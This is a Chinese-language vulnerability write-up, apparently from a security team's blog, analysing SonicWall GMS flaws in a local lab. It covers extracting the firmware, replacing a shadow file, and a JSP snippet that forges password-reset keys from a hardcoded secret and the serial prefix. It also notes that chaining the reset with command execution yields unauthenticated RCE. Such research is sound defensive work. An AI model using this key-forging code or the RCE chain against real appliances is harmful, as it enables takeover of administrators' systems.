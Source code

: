 #  SonicWall GMS 漏洞分析   
原创 badmonkey  ChaMd5安全团队   2023-11-13 08:44  
  
> 招新小广告CTF组诚招re、crypto、pwn、misc、合约方向的师傅,长期招新IOT+Car+工控+样本分析多个组招人有意向的师傅请联系邮箱  
  
admin@chamd5.org(带上简历和想加入的小组  
  
  
  
- 环境配置  
  
- 固件提取  
  
- 漏洞定位  
  
- CVE-2023-34123  
  
- CVE-2023-34128  
  
- CVE-2023-34124  
  
- CVE-2023-34127  
  
- CVE-2023-34129  
  
- 后续  
  
## 环境配置  
  
进入后需要login，在login界面输入snwlcli，会尝试登录到cli中，在新的login中输入用户名 admin 口令 password进入后，进行网络配置  
```
interface eth0 192.168.1.203 255.255.255.0
route --add default --destination 192.168.1.1
exit

```  
  
以single server模式部署  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PUubqXlrzBSInGvz3l7fkVibPgcicVGGIXSuM3XlEibJTyPzicGLlRY6hzQu7dVv6A81lektnvoa56lxKictFj2U2wg/640?wx_fmt=png "")  
  
image-20231106165154053  
## 固件提取  
  
使用diskgenius打开，主要关注两个文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PUubqXlrzBSInGvz3l7fkVibPgcicVGGIXX8tu7vj2siazN4dGpyruLt6TCqEWNIza5ACx4MDgibSjSyfiaceuoIg5A/640?wx_fmt=png "")  
  
image-20231105203855124  
  
其中GMSVP对应着后端的处理逻辑，为ext2类型的文件系统，在wsl2挂载时出现问题，使用diskgenius也没办法正常打开，但是在ubuntu22.04可以正常挂载  
```
sudo mount -t ext2 GMSVP-image.ext2 opt

```  
  
但是也是没有ssh的，发现root.img为squashfs，尝试重新写root.img中的shadow文件，重新启动后失败。分析后发现conf.img也是squashfs，且保存了很多的配置内容，包括httpd等配置。因此重新打包conf.img，首先生成一个sha512的密码，明文为password  
```
sudo apt-get install whois
mkpasswd --method=sha512crypt

```  
  
参考https://www.anquanke.com/post/id/266078 进行vmdk的转换和挂载  
```
sudo modprobe nbd max_part=8 
sudo qemu-nbd --connect=/dev/nbd0 ./gms_1389.qcow2

```  
  
修改conf.img并重新打包  
```
unsquashfs conf.img
cd squashfs-root
vim shadow
mksquashfs squashfs-root fake.img
cp fake.img /media/xxxx/ROOT/00/conf.img
sudo qemu-nbd -d /dev/nbd0
qemu-img convert -f qcow2 gms_1389.qcow2 -O gms_1389.vmdk

```  
## 漏洞定位  
  
看了下官方公告  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PUubqXlrzBSInGvz3l7fkVibPgcicVGGIXfMgGKDG1jXN707W4l3RuA9QPfWc30CVKkvWpct9bLfdDdgZJc92kuw/640?wx_fmt=png "")  
  
image-20231109134200386  
  
具体的细节为  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PUubqXlrzBSInGvz3l7fkVibPgcicVGGIXQhAUlEhqwFDFl5ibUuRFCdrjq0IFvwytWWX13CrubFiaH3EKWEsYpPWA/640?wx_fmt=png "")  
  
image-20231109134711614  
### CVE-2023-34123  
  
由于是虚拟机，因此会进入这个条件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PUubqXlrzBSInGvz3l7fkVibPgcicVGGIXEGibwMRYmUyib1Y78npezZ59fof6ycWoBj7wBcmqGhbtCbHVvWEAnYpg/640?wx_fmt=png "")  
  
image-20231109143713211  
  
对应的内容为  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PUubqXlrzBSInGvz3l7fkVibPgcicVGGIXXohqgNmU4931djibv1LGphngcNiac2SmdSicOicz68vN19Oeegnd3W7shA/640?wx_fmt=png "")  
  
image-20231109143750492  
  
虽然每个机器的serial是不一样的，但是重置密码只用了前六位，而这前六位是一样的  
> cat /mnt/sysinfo/serial  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PUubqXlrzBSInGvz3l7fkVibPgcicVGGIXuGF53SmEHfyHgnMyxWsHVK10l0CbiczQgiaS8eqUyQANl4v2dN9neJ1w/640?wx_fmt=png "")  
  
image-20231109143946550  
  
但是实际测试后发现,即使使用000C29068982生成resetkey也会有问题，**可能是因为复现环境没有license的原因？**但是使用password作为key可以进入reset流程，这里直接使用jsp进行key的生成,jsp位于/opt/GMSVP/Tomcat/webapps/sgms/test.jsp  
```
<%@ page import="com.sonicwall.sgms.util.Crypto" %>
<%@ page import="com.sonicwall.sgms.util.Base64" %>
<%

//String sn = "000C29068982";
String sn = (String)request.getParameter("sn");
String key = sn.substring(0, 6)+"d:&!4+O=*wQe~I8f3l";
String restKey;
String plaintext = (String)request.getParameter("pwd"); 
restKey = new String(Base64.encode(Crypto.encrypt3DES(key.getBytes(), plaintext.getBytes(), false,true)));
out.println(restKey);
// https://192.168.147.200/sgms/test.jsp?pwd=password&sn=password
// GfVnXHe62BkacZMdYLyBTQ==
%>

```  
  
使用该key进行密钥重置，在日志中可以看到如下信息，日志位于/opt/GMSVP/Logs/DbgAppliance0.log  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PUubqXlrzBSInGvz3l7fkVibPgcicVGGIXYmsiaZnyr1ILzRCumBohJxrvzZ9Yhdxe0oakefbRicKFnw6CIWS4HQRA/640?wx_fmt=png "")  
  
image-20231110000317658  
### CVE-2023-34128  
  
tomcat manager使用硬编码，但是开启了ip限制所以没啥用?  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PUubqXlrzBSInGvz3l7fkVibPgcicVGGIXcel7k7WXE9sG4OtzBYiatI8ibYlNyrpytzdyYKRg9GmhPbicL6xHUGraA/640?wx_fmt=png "")  
  
image-20231110110511349  
  
限制了环回地址  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PUubqXlrzBSInGvz3l7fkVibPgcicVGGIXIctzCzjGQNvt8hwWlKBbYaOLAvB1bia09ClfwWJGOXXGoNXtbesoibzw/640?wx_fmt=png "")  
  
image-20231110110601909  
### CVE-2023-34124  
  
没有license没办法，没办法复现，没找到对应的接口。  
  
https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/http/sonicwall_shell_injection_cve_2023_34124.rb  
### CVE-2023-34127  
  
对文件进行筛选时，存在命令执行  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PUubqXlrzBSInGvz3l7fkVibPgcicVGGIXbXoxlGvW5wTgBf1BK2icCic1FEKRIHJeQfrUiarUDItNMsUQGqXOEycAQ/640?wx_fmt=png "")  
  
image-20231110151845147  
### CVE-2023-34129  
  
路径穿越  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PUubqXlrzBSInGvz3l7fkVibPgcicVGGIXqzPpAJG5mbXjU3V9NFJjoOfPrLTcG4wvAOWOca8bv1qK2CicnuYjKNg/640?wx_fmt=png "")  
  
image-20231110152020269  
## 后续  
  
其他的一些任意文件上传，硬编码没有贴出来，可以反编译成java后beyondcompare这里不在赘述，没找到CVE-2023-34131，结合resetPWD和授权的命令执行是可以未授权RCE的。泄露出serial number是可以重置密码，然后授权执行系统命令的。  
  
- END -  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBR8nk7RR7HefBINILy4PClwoEMzGCJovye9KIsEjCKwxlqcSFsGJSv3OtYIjmKpXzVyfzlqSicWwxQ/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
